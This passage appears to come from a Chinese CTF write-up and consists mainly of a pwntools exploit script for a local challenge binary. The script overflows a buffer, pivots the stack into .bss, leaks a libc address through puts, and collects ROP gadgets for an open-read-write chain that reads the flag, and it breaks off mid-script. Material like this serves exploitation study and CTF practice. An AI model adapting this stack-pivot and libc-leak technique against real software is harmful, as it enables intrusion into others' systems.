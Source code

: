 再获取 flag 文件名`flag284876`​​后，我们在构造 orw 读取 flag

###### exp：

```bash
from pwn import *

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

r=process('./pwn')
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')


li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
   gdb.attach(proc.pidof(r)[0])
   pause()

bss = 0x404200
bss5 = 0x404500-0x200
bss6 = 0x404600-0x200
bss7 = 0x404700-0x200
bss8 = 0x404800-0x200
bss9 = 0x404900-0x200

rdi=0x401283
rsi_r15=0x401281
ret=0x40101a

main=0x4011DB
read=0x4011FD

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

r.recv()
pay=b'a'*0x60+p64(bss)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss+0x60)+p64(read)
r.send(pay)

pay=p64(bss+0x70)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
r.send(pay)

leak=u64(r.recv(6)+b'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
pop_rdi = base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx = base + libc.search(asm('pop rdx;ret;')).__next__()
pop_rdx12 = base + libc.search(asm('pop rdx;pop r12;ret;')).__next__()
read_addr = base + libc.sym['read']
mprotect = base + libc.sym['mprotect']

r.recv()
pay=b'a'*0x60+p64(bss5)+p64(read)
r.send(pay)
```